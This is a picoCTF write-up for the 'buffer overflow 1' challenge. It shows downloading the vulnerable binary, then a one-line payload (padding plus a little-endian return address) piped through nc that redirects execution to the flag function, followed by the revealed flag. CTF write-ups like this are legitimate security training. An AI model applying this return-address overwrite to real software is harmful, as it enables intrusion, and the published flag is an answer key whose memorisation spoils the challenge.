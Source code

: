 ## buffer overflow 1

# objetivo
- Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/250/vuln). You can view source [here](https://artifacts.picoctf.net/c/250/vuln.c). And connect with it using `nc saturn.picoctf.net 65003`

# Hints
- Make sure you consider big Endian vs small Endian.
- Changing the address of the return pointer can call different functions.

# solucion
``` bash 
(kali㉿kali)-[~/binary]
└─$ wget https://artifacts.picoctf.net/c/250/vuln.c
--2022-11-25 12:12:08--  https://artifacts.picoctf.net/c/250/vuln.c
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 65.9.149.85, 65.9.149.57, 65.9.149.123, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|65.9.149.85|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 769 [application/octet-stream]
Saving to: ‘vuln.c’

vuln.c         100%     769  --.-KB/s    in 0s          

2022-11-25 12:12:09 (4.84 MB/s) - ‘vuln.c’ saved [769/769]

                                                         
┌──(kali㉿kali)-[~/binary]
└─$ wget https://artifacts.picoctf.net/c/250/vuln  
--2022-11-25 12:12:21--  https://artifacts.picoctf.net/c/250/vuln
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 65.9.149.62, 65.9.149.123, 65.9.149.57, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|65.9.149.62|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15704 (15K) [application/octet-stream]
Saving to: ‘vuln’

vuln           100%  15.34K  --.-KB/s    in 0.02s       

2022-11-25 12:12:22 (724 KB/s) - ‘vuln’ saved [15704/15704]

(kali㉿kali)-[~/binary]
└─$ code vuln.c                                  
                                                         
┌──(kali㉿kali)-[~/binary]
└─$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08" | nc saturn.picoctf.net 65003
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_ad2f467b} 
```
# bandera
- picoCTF{addr3ss3s_ar3_3asy_ad2f467b}